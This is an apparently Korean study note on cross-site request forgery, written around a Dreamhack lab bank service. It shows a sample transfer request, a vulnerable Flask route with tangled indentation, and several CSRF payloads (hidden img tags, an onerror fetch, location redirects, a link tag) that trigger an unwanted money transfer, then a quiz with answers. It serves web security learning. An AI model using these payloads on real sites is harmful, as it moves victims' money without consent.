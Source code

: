 # Cross Site Request Forgery (CSRF)  
## CSRF  
CSRF : 임의 이용자의 권한으로 임의 주소에 **HTTP 요청**을 보낼 수 있는 취약점 -> 이용자를 속여서, 의도치 않은 요청에 동의하게 하는 공격  
## CSRF 동작  
공격자가 악성 스크립트(HTML, Javascript 등)을 넣어서 이용자에게 **메일**을 보내거나 게시판에 **글을 작성**해 이용자가 이를 조회하도록 하는 방식입니다.  
**img 태그**를 사용하거나 웹 페이지에 입력된 양식을 전송하는 **form 태그**를 사용하는 방법이 있습니다.  
```
GET /sendmoney?to=dreamhack&amount=1337 HTTP/1.1
Host: bank.dreamhack.io
Cookie: session=IeheighaiToo4eenahw3
```
위의 메시지는 송금 요청하는 예시 request message 입니다.  
```python# 이용자가 /sendmoney에 접속했을때 아래와 같은 송금 기능을 웹 서비스가 실행함.
@app.route('/sendmoney')
def sendmoney(name):
  # 송금을 받는 사람과 금액을 입력받음.
  to_user = request.args.get('to')
  amount = int(request.args.get('amount'))
	
	# 송금 기능 실행 후, 결과 반환	
	success_status = send_money(to_user, amount)
	
	# 송금이 성공했을 때,
	if success_status:
    # 성공 메시지 출력
		return "Send success."
	# 송금이 실패했을 때,
	else:
    # 실패 메시지 출력
		return "Send fail."
```
위의 파이썬 코드는 이전에 적었던 request message를 보내는 코드입니다.  
```html
<img src='http://bank.dreamhack.io/sendmoney?to=dreamhack&amount=1337' width=0px height=0px>
```
```Javascript
/* 새 창 띄우기 */
window.open('http://bank.dreamhack.io/sendmoney?to=dreamhack&amount=1337');
/* 현재 창 주소 옮기기 */
location.href = 'http://bank.dreamhack.io/sendmoney?to=dreamhack&amount=1337';
location.replace('http://bank.dreamhack.io/sendmoney?to=dreamhack&amount=1337');
```
위에 있는 코드들처럼 img 태그나 location.href 등을 사용해서 csrf 공격을 합니다.  
<img src="1.jpg">  

## CSRF 실습  
<img src="2.jpg">  
위에 있던 송금을 하게끔 csrf 공격을 합니다.  
<img src="3.jpg">  
다음과 같이 적으면, 한 번 요청되면 1000000원이 송금됩니다.  
<img src="4.jpg">  

```html
<img src="/sendmoney?to=dreamhack&amount=1337">
<img src=1 onerror="fetch('/sendmoney?to=dreamhack&amount=1337');">
<link rel="stylesheet" href="/sendmoney?to=dreamhack&amount=1337">
```
위에 있는 코드처럼 여러 방식으로 csrf 공격을 할 수 있습니다.  
## XSS와 CSRF 차이  
### 공통점  
클라이언트를 대상으로 하는 공격, 악성 스크립트를 사용한다.  
### 차이점  
목적이 다르다.  
1. xss : 세션 및 쿠키 탈취를 목적  
2. csrf : HTTP 요청을 보내는 것을 목적  
# 퀴즈  
1. 서버에서 이용자를 식별하기 위해 쿠키를 사용하고 있어야 CSRF 취약점으로 공격할 수 있다.  
답 : O  
2. 브라우저는 CSRF 취약점을 방지하기 위한 보안 메커니즘을 제공한다.  
답 : O  
3. 서버에서 HTTP의 GET 메소드가 아닌 POST 메소드로 데이터를 받으면 CSRF에 안전하다.  
답 : X  
4. CSRF 공격이 불가능할 때 XSS 공격도 불가능하다.  
답 : X  
